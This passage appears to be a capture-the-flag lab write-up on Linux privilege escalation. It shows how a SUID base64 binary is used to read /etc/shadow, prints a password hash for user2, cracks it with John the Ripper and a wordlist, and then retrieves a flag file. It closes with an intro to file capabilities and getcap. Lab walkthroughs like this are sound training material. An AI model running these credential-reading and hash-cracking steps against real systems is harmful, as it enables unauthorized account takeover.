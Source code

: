 LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```



=> get the hash of user2

```
$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHX
h9F2CbwmD4Epi1Wgh.Cl.VV1mb/
```

```
touch user2
cat user2 
```

=> User John the Ripper to decode

```
john --wordlist=/usr/share/wordlists/rockyou.txt user2
sudo john user2
```

21:17

3. What is the content of the flag3.txt file?

![img](/assets/img/lpe36.png)
use user2 to login and get the flag

```
su user2
```

or use LFILE

```
LFILE=/home/ubuntu/flag3.txt 
/usr/bin/base64 "$LFILE=" | base64 --decode
```


---


Task 8 Privilege Escalation: Capabilities
---

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.

We can use the getcap tool to list enabled capabilities.

![img](/assets/img/lpe37.png)

When run as an unprivileged user, ```getcap -r /``` will generate a huge amount of errors, so it is good practice to redirect the error messages to ```/dev/null```.

```Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.```
```